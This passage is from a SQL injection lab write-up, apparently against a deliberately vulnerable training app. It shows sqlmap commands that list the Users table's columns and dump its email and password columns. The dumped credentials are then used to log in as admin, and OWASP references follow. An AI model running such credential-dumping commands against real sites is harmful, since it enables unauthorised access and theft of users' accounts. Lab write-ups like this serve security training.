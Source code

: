  ## 9. Enumerate the users table and pull its content.
 ```bash
    sqlmap -r lab2.txt --batch --threads=5 -D evangelion_sqli -T Users --columns
```
 - **-T(table) - use users table
 - **--columns** - pulls back the columns from the **Users** table.
   
    ## The command returns back  9 columns.
   <img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/354d06ba-9975-48a3-bbd2-5363a0f570c9" />

### from the website we log in using *Email* and *passwords*(so pull back the Email and password columns from the table).
```bash
   sqlmap -r lab2.txt --batch --threads=5 -D evangelion_sqli -T Users -C Email,Password --dump
```
- **-C(column)** - the columns to pull
- **--dump** - to dump all the columns selected
   ## The command returns back 3 Emails and passwords.
  <img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/66707075-8e3d-48ba-a2d1-778beec7377a" />

---
  # Now use them to log in to the site as the side admin.
  <img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/7bc3acd0-c9cc-40e9-a304-19303bf1dbf6" />

  # Main page after login.(access granted).
  <img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/a447012a-4927-405e-96c5-d5695ccdfdd3" />

  ## REVIEW.

 - we used burpsuite to capture our http requests when we loged in
 -  saved the request to a file called lab2.txt
 -  then used sqlmap to enumerate the database
 -   we pulled back the tables, columns and then contents inside the columns(name and email).
 -   we then used the email and password to login, access granted as admin.
   ### shows that the website is vulnerable to sql injection.

 ## 📚 References

- [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLMap Official Documentation](http://sqlmap.org/)
- [Burp Suite Documentation](https://portswigger.net/burp/documentation)
- [Appsecco SQLi Labs GitHub](https://github.com/appsecco/sqlinjection-training-app)
- [OWASP Testing Guide – Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

---
